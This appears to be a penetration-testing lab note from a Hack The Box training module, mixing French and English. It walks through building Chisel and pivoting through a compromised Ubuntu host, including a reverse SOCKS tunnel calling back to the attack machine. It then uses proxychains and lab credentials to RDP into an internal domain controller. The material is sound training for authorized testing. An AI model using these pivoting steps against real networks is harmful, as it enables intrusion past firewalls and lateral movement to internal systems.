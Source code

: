 # SOCKS5 Tunneling with Chisel

***

Chisel est un outil de tunneling TCP/UDP en Go qui utilise HTTP sécurisé par SSH. Il permet de créer un tunnel client-serveur dans un réseau restreint par un pare-feu. Par exemple, si notre cible interne (172.16.5.19) n’est pas accessible depuis notre machine d’attaque, on peut lancer Chisel sur le serveur Ubuntu compromis pour rediriger le trafic vers le réseau interne.

***

### <mark style="color:red;">Setting Up & Using Chisel</mark>

<mark style="color:green;">**Cloning Chisel**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ git clone https://github.com/jpillora/chisel.git
```

<mark style="color:green;">**Building the Chisel Binary**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ cd chisel
go build
```

{% hint style="warning" %}
It can be helpful to be mindful of the size of the files we transfer onto targets on our client's networks, not just for performance reasons but also considering detection. Two beneficial resources to complement this particular concept are Oxdf's blog post "[Tunneling with Chisel and SSF](https://0xdf.gitlab.io/cheatsheets/chisel)" and IppSec's walkthrough of the box `Reddish`. IppSec starts his explanation of Chisel, building the binary and shrinking the size of the binary at the 24:29 mark of his [video](https://www.youtube.com/watch?v=Yp4oxoQIBAM\&t=1469s).
{% endhint %}

<mark style="color:green;">**Transferring Chisel Binary to Pivot Host**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ scp chisel ubuntu@10.129.202.64:~/
```

Then we can start the Chisel server/listener.

<mark style="color:green;">**Running the Chisel Server on the Pivot Host**</mark>

```shell-session
ubuntu@WEB01:~$ ./chisel server -v -p 1234 --socks5
```

The Chisel listener will listen for incoming connections on port `1234` using SOCKS5 (`--socks5`) and forward it to all the networks that are accessible from the pivot host. In our case, the pivot host has an interface on the 172.16.5.0/23 network, which will allow us to reach hosts on that network.

<mark style="color:green;">**Connecting to the Chisel Server**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ ./chisel client -v 10.129.202.64:1234 socks
```

{% hint style="info" %}
As you can see in the above output, the Chisel client has created a TCP/UDP tunnel via HTTP secured using SSH between the Chisel server and the client and has started listening on port 1080. Now we can modify our proxychains.conf file located at `/etc/proxychains.conf` and add `1080` port at the end so we can use proxychains to pivot using the created tunnel between the 1080 port and the SSH tunnel.
{% endhint %}

<mark style="color:green;">**Editing & Confirming proxychains.conf**</mark>

We can use any text editor we would like to edit the proxychains.conf file, then confirm our configuration changes using `tail`.

```shell-session
mrroboteLiot@htb[/htb]$ tail -f /etc/proxychains.conf 

#
#       proxy types: http, socks4, socks5
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
# socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080
```

Now if we use proxychains with RDP, we can connect to the DC on the internal network through the tunnel we have created to the Pivot host.

<mark style="color:green;">**Pivoting to the DC**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

***

### <mark style="color:red;">Chisel Reverse Pivot</mark>

<mark style="color:green;">**Starting the Chisel Server on our Attack Host**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ sudo ./chisel server --reverse -v -p 1234 --socks5
```

Then we connect from the Ubuntu (pivot host) to our attack host, using the option `R:socks`

<mark style="color:green;">**Connecting the Chisel Client to our Attack Host**</mark>

```shell-session
ubuntu@WEB01$ ./chisel client -v 10.10.14.17:1234 R:socks
```

We can use any editor we would like to edit the proxychains.conf file, then confirm our configuration changes using `tail`.

<mark style="color:green;">**Editing & Confirming proxychains.conf**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ tail -f /etc/proxychains.conf 

[ProxyList]
# add proxy here ...
# socks4    127.0.0.1 9050
socks5 127.0.0.1 1080 
```

If we use proxychains with RDP, we can connect to the DC on the internal network through the tunnel we have created to the Pivot host.

```shell-session
mrroboteLiot@htb[/htb]$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```
